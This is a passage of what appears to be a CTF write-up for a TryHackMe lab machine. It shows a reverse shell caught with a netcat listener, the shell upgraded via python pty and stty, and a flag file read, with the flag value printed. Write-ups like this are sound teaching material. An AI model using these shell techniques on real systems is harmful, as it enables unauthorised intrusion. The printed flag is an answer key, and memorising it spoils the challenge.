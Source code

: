 <p>10.10.185.86:8096/web/index.html#!/login.html?serverid=b6c698509b83439992b3e437c87f7fb5</p>

<img width="1057" height="485" alt="image" src="https://github.com/user-attachments/assets/17f0a32e-f405-4f51-b471-dbfef36edf63" />


<h3>monitorr.robyns-petshop.thm/settings.php</h3>

<img width="1063" height="637" alt="image" src="https://github.com/user-attachments/assets/fc088d66-7471-4793-9572-5f79fe3e7fc7" />

<img width="1127" height="381" alt="image" src="https://github.com/user-attachments/assets/0cf1a22b-58ea-4275-af01-b4c3d2910650" />


<img width="1119" height="253" alt="image" src="https://github.com/user-attachments/assets/83f6a820-cb61-46fb-aae2-aec2e28f7dc1" />

<br>
<br>

```bash
:~# nc -nlvp 443
...
www-data@petshop:/var/www/monitorr/assets/data/usrimg$ which python3
which python3
/usr/bin/python3
www-data@petshop:/var/www/monitorr/assets/data/usrimg$ python3 -c 'import pty;pty.spawn("/bin/bash")'
<img$ python3 -c 'import pty;pty.spawn("/bin/bash")'   
www-data@petshop:/var/www/monitorr/assets/data/usrimg$ export TERM=xterm
export TERM=xterm
www-data@petshop:/var/www/monitorr/assets/data/usrimg$ ^Z
[1]+  Stopped                 nc -nlvp 443
:~/YearOfTheJellyFish# stty raw -echo; fg
nc -nlvp 443

www-data@petshop:/var/www/monitorr/assets/data/usrimg$ 
```

```bash
www-data@petshop:/var/www$ ls
dev  flag1.txt	html  monitorr
www-data@petshop:/var/www$ ls -lah
total 24K
drwxr-xr-x  5 root     root     4.0K Apr 30  2021 .
drwxr-xr-x 14 root     root     4.0K Apr  9  2021 ..
drwxr-xr-x  9 root     root     4.0K Apr 11  2021 dev
-r--------  1 www-data www-data   38 Apr 30  2021 flag1.txt
drwxr-xr-x  9 root     root     4.0K Apr 11  2021 html
drwxr-xr-x  4 www-data www-data 4.0K Apr 11  2021 monitorr
www-data@petshop:/var/www$ cat flag1.txt
THM{MjBkOTMyZDgzNGZmOGI0Y2I5NTljNGNl}
www-data@petshop:/var/www$ 
```


<h3>linpeas.sh</h3>

